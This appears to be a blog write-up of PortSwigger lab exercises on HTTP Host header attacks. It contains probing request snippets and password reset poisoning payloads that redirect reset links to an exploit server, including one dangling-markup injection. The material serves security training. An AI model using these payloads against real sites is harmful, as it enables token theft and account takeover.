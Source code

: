 ```yaml
---
title: PortSwigger | Host Header Attacks
date: '2024-04-04'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## Host Header Attacks
The `Host` header in HTTP is mandatory since `HTTP/1.1`.  It specifies the domain name the client wants to access. Now a days its common for multiple websites to be accessible via same IP address.

There are two scenarios :
Virtual Hosting : Multiple Websites hosted on a single IP address
Routing : Multiple websites being load balanced via a single reverse proxy

In both the above cases host header is an important component to determine where the request should be sent. Many websites don't know what domain they are deployed on. They usually get the help from server `_SERVER['HOST']`  to retrieve domain name. As Host header is attacker controllable , this can lead to many vulnerabilities if not properly escaped or sanitized.

We can use following techniques to check for this vulnerability :
- Supply an arbitrary Host header
- Check for flawed validation
```http
GET /example HTTP/1.1 
Host: vulnerable-website.com:bad-stuff-here
```
- Send ambiguous requests
- Inject duplicate host headers
```http
GET /example HTTP/1.1 
Host: vulnerable-website.com 
Host: bad-stuff-here
```
- Supply an absolute URL
```http
GET https://vulnerable-website.com/ HTTP/1.1 
Host: bad-stuff-here
```
- Add line wrapping
```http
GET /example HTTP/1.1 
	Host: bad-stuff-here 
Host: vulnerable-website.com
```
- Inject Host override headers
```http
GET /example HTTP/1.1 
Host: vulnerable-website.com 
X-Forwarded-Host: bad-stuff-here
```

Some other headers we can use :
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`


##### Password reset poisoning
If the password reset url is dynamically generated via user controllable input such as Host header it may be possible to get a poisoned link

###### lab : Basic password reset poisoning
```http

// [https://0a11000b0368653481ef11260005004d.web-security-academy.net/forgot-password?temp-forgot-password-token=157e68e7ajplv4x9vqnal6mqmbresc63](https://0a11000b0368653481ef11260005004d.web-security-academy.net/forgot-password?temp-forgot-password-token=157e68e7ajplv4x9vqnal6mqmbresc63)


// Host header is changed to the exploit server to get token 
Host: exploit-0a89002f03c065a5816b10c5014000ba.exploit-server.net

// This leads to a token leakage , we replace the token in the above url to change the password of the victim
```

###### lab : Password reset poisoning via middleware
```http
// using X-Forwarded-Host to point to attack server to get token 
X-Forwarded-Host: exploit-0a5c002103f7509381cf0299018f0045.exploit-server.net
```

###### lab : Password reset poisoning via dangling markup
```http
Host: 0aa300e1045c624780ddb26a00e30026.web-security-academy.net:'<a href="//exploit-0ae2002404e662c680b5b19f010400d5.exploit-server.net/?
```

##### Web cache poisoning via Host header

